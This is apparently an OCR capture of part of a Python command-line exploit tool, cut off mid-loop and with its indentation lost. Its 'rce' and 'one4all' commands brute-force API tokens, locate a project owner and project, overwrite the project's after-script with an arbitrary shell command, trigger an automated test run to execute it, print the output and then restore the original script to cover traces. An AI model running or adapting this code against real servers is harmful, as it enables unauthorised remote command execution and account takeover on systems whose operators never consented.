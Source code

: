 ```python
            @click.option('-o', '--owner-id', 'owner', type=str, required=True)
            @click.option('-t', '--token', 'token', type=str, required=True, help='Token that get from first step')
            @click.option('--pid', 'project_id', type=int, required=True)
            @click.option('--cid', 'col_id', type=int, required=True)
            @click.option('-c', '--command', 'command', type=str, required=True, help='Command that you want to execute')
            def cmd_rce(url, owner, token, project_id, col_id, command):
            token = aes_encode(f'{owner}|{token}')
            project = find_project(url, token, project_id)
            if not project:
            click.echo('[-] failed to get project')
            return False

            old_after_script = project.get('after_script', '')
            if not update_project(url, token, project_id, command):
            click.echo('[-] failed to update project')
            return False

            output = run_auto_test(url, token, col_id)
            if output:
            click.echo(output)
            clear_project(url, token, project_id, old_after_script)
            return True

            clear_project(url, token, project_id, old_after_script)
            return False


            @cli.command('one4all')
            @click.option('-u', '--url', type=str, required=True)
            @click.option('--count', type=int, default=5)
            @click.option('-c', '--command', type=str, default='id')
            def cmd_one4all(url, count, command):
            already = []
            for i in range(count):
            token = brute_token(url, already)
            if not token:
            logger.info('[-] no new token found, exit...')
            break

            already.append(token)
            logger.info('[+] find a new token: %s', token)
            owner_id = find_owner_uid(url, token)
            if not owner_id:
            logger.info('[-] failed to find the owner id using token %s', token)
            continue

            etoken = aes_encode(f'{owner_id}|{token}')
            logger.info('[+] find a new owner id: %r, encrypted token: %s', owner_id, etoken)
            project = find_project(url, etoken)
            if not project:
            logger.info('[-] failed to find project using token %s', token)
            continue

            project_id = project['_id']
            logger.info('[+] project_id = %s, project = %r', project_id, project)
            col_ids = find_col(url, etoken, 1, 200)
            if not col_ids:
            logger.info('[+] failed to find cols in project %s, try next project...', project_id)

            for col_id in col_ids:
            logger.info('[+] col_id = %s', col_id)
```